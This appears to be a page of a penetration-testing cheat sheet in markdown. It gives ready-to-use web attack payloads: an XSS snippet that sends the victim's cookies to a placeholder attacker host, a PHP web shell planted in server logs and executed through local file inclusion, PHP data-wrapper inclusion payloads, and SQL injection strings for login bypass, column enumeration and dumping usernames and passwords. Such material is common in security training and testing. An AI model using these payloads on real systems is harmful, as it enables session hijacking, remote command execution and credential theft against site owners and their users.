 ### XSS Cookie Stealer
```javascript
<script>new Image().src="http://x.x.x.x/stealer.jpg?output="+document.cookie;<script>
```

## PHP Remote Command/Code Execution (through Local File Inclusion)
Send the following payload as request to webserver with e.g. nc.
Possibly the webserver logs the request.
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
After that use Local File Inclusion (LFI) to request a site, include the logfile and use the parameter "&cmd=\<COMMAND\>" to execute os commands.

### PHP Data Wrapper
Given String is used like a file content for LFIs. (No need to write/manipulate files on webserver)
```
data:text/plain,<TESTSTRING>
data:text/plain,<?php echo shell_exec("dir") ?>
```

## SQL Injections

### Authentication Bypass
```SQL
select * from users where name = '<USER>' or 1=1;#' and password = '<ANYTHING>';
select * from users where name = '<USER>' or 1=1 LIMIT 1;#' and password = '<ANYTHING>';

select * from users where name = '<USER>' or 1=1;--' and password = '<ANYTHING>';
select * from users where name = '<USER>' or 1=1 LIMIT 1;--' and password = '<ANYTHING>';
```

### Detect number of columns for UNION attack:
add a 
```SQL
ORDER BY 1--
```
statement to sql command.
Than increase number after ORDER BY until you receive a error => Value before is the correct number of columns for UNION statement.


### Detect which columns are shown
```SQL
=1 union all select 1, 2, 3, ...
```

### Get Data from database
```SQL
=1 union all select 1, 2, @@version
=1 union all select 1, 2, user()
=1 union all select 1, 2, table_name from information_schema.tables
=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
=1 union all select 1, username, password from users
```
